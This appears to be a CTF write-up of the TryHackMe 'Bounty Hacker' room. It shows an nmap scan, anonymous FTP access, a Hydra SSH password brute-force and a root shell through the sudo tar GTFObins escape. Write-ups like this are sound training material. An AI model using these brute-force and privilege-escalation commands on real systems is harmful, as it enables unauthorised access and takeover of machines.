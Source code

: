 ```yaml
---

title: Bounty Hacker
date: 2020-08-03 04:00:00 +5:30
description: The Following Post is writeup of bountyhacker room of tryhackme # Add post description (optional)
categories: [TryHackMe, Easy]
tags: [tryhackme, ctf, gtfobins, ftp] # add tag
---
```


## Description:

The Following Post is writeup of Bounty Hacker room of tryhackme <https://tryhackme.com/room/cowboyhacker>

|Machine|Details
|:---|:--
|OS | linux
|Rating | Easy
|Creator | Sevuhl

## Summary:

  PortScan will give you 3 open ports 21,22 and 80. We got anoymous
  ftp server after login we will get a username and a passlist.
  bruteforce it using hydra and we will get user then sudo -l and GTFObins

## Walkthrough:

### Enumeration
Lets start with nmap scan

```terminal
$ nmap -sC -sV 10.10.87.183
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.17.224
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.28 seconds

```
#### Port 21

Start our enum with port 21
So we can see anonyomous listing is allowed

```terminal
$ ftp 10.10.87.183

-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
```

#### Hydra
so from this files we can see user lin and let's assume the locks.txt is passlist
and bruteforce ssh using hydra

```terminal
└──╼ $hydra -l lin -P locks.txt ssh://10.10.87.183
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-31 02:15:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.87.183:22/
[22][ssh] host: 10.10.87.183   login: lin   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-31 02:15:10
```

Let's check whether lin have sudo privs or not

#### PrivEsc
```terminal
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Here we go so let's try GTFObins


```terminal
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
```

Rooted
